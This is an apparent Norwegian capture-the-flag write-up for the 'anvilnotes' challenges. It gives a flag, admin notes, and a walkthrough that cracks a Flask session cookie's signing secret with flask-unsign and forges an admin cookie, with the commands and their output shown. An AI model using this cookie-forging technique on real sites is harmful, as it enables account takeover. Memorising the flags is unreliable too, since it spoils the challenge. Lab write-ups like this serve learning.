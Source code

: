 ```text
FLAGG: 4aee8b5ccff539d35e7c8d6a1d749e1b

Development status:
☑ Figure out a way to generate PDFs securely!
☑ Make IT department fix firewall rules for the internal API
☑ Randomize note ids to prevent enumeration
☐ VIM keybindings
☐ Secure flask token using military grade encryptions that can't be unsigned using open software.
☐ Enable PDF feature for all users
```

```text
Kategori: 2. Oppdrag
Oppgave:  2.02_anvilnotes
Svar:     4aee8b5ccff539d35e7c8d6a1d749e1b
Poeng:    10

Admin sine notater, som han laget før id ble randomisert...
Gir dette noen hint til hvordan du kan få mer tilgang?
```

---

## 2.03_anvilnotes_admin

I notatene til admin står følgende:
`☐ Secure flask token using military grade encryptions that can't be unsigned using open software.`

Basert på det, så googlet jeg følgende: `flask token exploit github`.
Da fikk jeg opp denne som fjerdevalg: https://github.com/Paradoxis/Flask-Unsign

Bruken av verktøyet er ganske rett frem, og hvordan/hvorfor det funker står best forklart på GitHub'en.

```bash
pip3 install flask-unsign[wordlist]
flask-unsign --unsign --cookie "eyJ1c2VybmFtZSI6ImEifQ.Y7HYAw.1tPvb-GFYM6W4EWgbaJELRAZy7k"
# [*] Session decodes to: {'username': 'a'}
# [*] No wordlist selected, falling back to default wordlist..
# [*] Starting brute-forcer with 8 threads..
# [*] Attempted (2176): -----BEGIN PRIVATE KEY-----.m2
# [*] Attempted (2560): /-W%/egister your app with Twi
# [*] Attempted (4224): 5#y2LF4Q8z8a52f30af11409c74288
# [*] Attempted (31104): -----BEGIN PRIVATE KEY-----S_K
# [+] Found secret key after 35712 attemptsYRjlMjM1k45F
# 'This is an UNSECURE Secret. CHANGE THIS for production environments.'
```

Dette gir oss hemmeligheten som ble brukt for å signere JWT. Vi kan gjenbruke denne for å signere en ny JWT hvor vi er admin:

```bash
flask-unsign --cookie '{"username": "admin"}' --secret "This is an UNSECURE Secret. CHANGE THIS for production environments." --sign
# eyJ1c2VybmFtZSI6ImFkbWluIn0.Y7HcuQ.fIhMwTA2wkD3L0lphwKfic0mKqA
```
Vi kan da bytte ut vår JWT med overnevnte og navigere til https://anvilnotes.cybertalent.no/notes for å motta neste flagg.
